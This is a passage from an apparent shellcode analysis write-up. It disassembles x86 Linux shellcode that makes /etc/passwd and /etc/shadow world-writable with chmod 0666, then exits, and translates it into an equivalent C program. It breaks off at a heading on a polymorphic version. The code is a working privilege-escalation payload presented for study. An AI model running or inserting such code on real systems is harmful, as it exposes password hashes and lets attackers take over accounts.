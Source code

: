 ```nasm

                            ; chmod(EBX, ECX)
00000018  B00F              mov al,0xf
0000001A  CD80              int 0x80
```

{% sidenote `chmod("/etc//passwd", 0666)` %}

```nasm
                            ; EAX = 0
0000001C  31C0              xor eax,eax
0000001E  50                push eax

                            ; "/etc//shadow"
0000001F  6861646F77        push dword 0x776f6461
00000024  682F2F7368        push dword 0x68732f2f
00000029  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//shadow"
0000002E  89E3              mov ebx,esp

                            ; chmod(EBX, ECX)
00000030  B00F              mov al,0xf
00000032  CD80              int 0x80
```

{% sidenote `chmod("/etc//shadow", 0666)` %}

```nasm
00000034  31C0              xor eax,eax
00000036  40                inc eax
00000037  CD80              int 0x80
```

{% sidenote `exit(EBX)` %}

It translates into the following C program:

```cpp
#include <sys/stat.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
  chmod("/etc//passwd", 0666);
  chmod("/etc//shadow", 0666);

  // EBX is equal to ESP, so it's just a random exit code
  exit(EBX);
}
```

### Polymorphic version

#### Focus on size
